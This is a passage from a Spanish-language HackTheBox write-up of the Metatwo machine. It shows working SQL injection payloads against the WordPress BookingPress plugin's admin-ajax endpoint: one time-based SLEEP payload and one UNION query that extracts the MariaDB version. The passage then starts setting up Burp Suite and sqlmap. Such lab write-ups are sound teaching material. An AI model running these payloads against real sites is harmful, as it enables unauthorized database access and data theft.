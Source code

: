 ```bash

# Time based payload:  
--------------------------------------------------------
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ELIDQUEDEBEMOSBUSCAR>&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH' 
```

Parece un poco lío pero es muy simple, solo he de seguir estos pasos.

* Primero debo buscar el parámetro wpnonce.

![](/assets/images/HTB/Metatwo-HackTheBox/wpnonce.webp)

Ahí tengo el parámetro wpnonce, ahora que ya lo tengo lanzo uno de los comandos que tenemos en la prueba de concepto para obtener la versión de la base de datos incluyendo el parámetro wpnonce.

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services_wpnonce=<WPNONCE>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

![](/assets/images/HTB/Metatwo-HackTheBox/sql1.webp)

Ahí tengo la versión y el nombre de la base de datos MariaDB 10.5.15.

Pero la inyección la relizaré con sqlmap ya que nunca he subido ningún writeup tirando de sqlmap asique hoy será la primera vez.

* Lo primero que hay que hacer es capturar con burpsuite la petición anterior.

![](/assets/images/HTB/Metatwo-HackTheBox/request.webp)

> Con el parámetro -x lo envío a la dirección 127.0.0.1 al puerto 8080 para que el burpsuite capture la petición.

* Una vez capturada elimino la parte de la inyección y lo guardo en un archivo.
